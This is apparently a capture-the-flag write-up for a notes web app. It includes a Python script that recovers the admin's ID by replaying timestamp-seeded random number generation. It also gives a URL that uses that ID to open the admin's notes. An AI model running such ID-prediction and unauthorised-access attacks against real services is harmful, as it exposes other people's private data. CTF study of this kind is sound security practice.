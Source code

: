 ##  Process

First crack admin user id using
`python cracker.py`

Now access admin notes using
http://52.163.52.206:5001/my_notes?user_id=7bdeij4oiafjdypqyrl2znwk7w9lulgn

### cracker.py

```python
import string, random, time
from datetime import datetime, timezone


# Admin
post_admin = 'lj40n2p9qj9xkzy3zfzz7pucm6dmjg1u'
alphabet = list(string.ascii_lowercase + string.digits)


def get_random_id():
    return ''.join([random.choice(alphabet) for _ in range(32)])


def crack():
	timestamp = 1610677740
	while True:
		timestamp = round(timestamp, 4)
		post_at = datetime.fromtimestamp(timestamp, tz=timezone.utc).strftime('%Y-%m-%d %H:%M UTC')
		random.seed(timestamp)
		user_id = get_random_id()	
		random.seed(user_id + post_at)
		note_id = get_random_id()
		if note_id == post_admin:
			print("Admin Found", user_id)
		timestamp += 0.0001

print("Cracking...")
crack()
```

